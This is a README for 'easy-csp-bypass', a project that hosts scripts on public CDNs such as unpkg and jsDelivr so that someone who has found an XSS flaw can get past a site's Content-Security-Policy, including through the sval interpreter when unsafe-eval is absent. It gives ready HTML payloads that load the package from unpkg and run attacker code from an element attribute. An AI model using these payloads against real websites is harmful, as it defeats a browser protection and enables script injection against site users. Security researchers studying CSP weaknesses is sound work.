 # easy-csp-bypass

Just a fun project to see if this code can end up in some CDN, so it would be easier to exploit XSS with CSP.

## How to use ?

Well, it depends.
If you are lucky enough to find unsafe-eval in the CSP configuration, you can use those scenario:

- Classic => /dist/classic.js
- Classic-infinite => /dist/classic-infinite.js
- Url => /dist/url.js

If you can't use eval() because unsafe-eval is not in the configuration, well it's not over !!
I found a Javascript interpreter called [sval](https://github.com/Siubaak/sval).
It can easily bypass the unsafe-eval restriction :) !

- Classic => /dist/sval-classic.js
- Classic-infinite => /dist/sval-infinite.js
- Url => /dist/sval-url.js

## Example

If you have an XSS on a website with CSP, search in the directive 'script-src' for [unpkg.com](https://unpkg.com/) or [jsdeliver](https://www.jsdelivr.com/).
If these domain are whitelist, you win !

```html
  <script src="https://unpkg.com/csp-bypass@1.0.2-0/dist/classic.js"></script>
  <br csp="alert(1)">
```

if 'unsafe-eval' is missing use the sval one:

```html
  <script src="https://unpkg.com/csp-bypass@1.0.2-0/dist/sval-classic.js"></script>
  <br csp="alert(1)">
```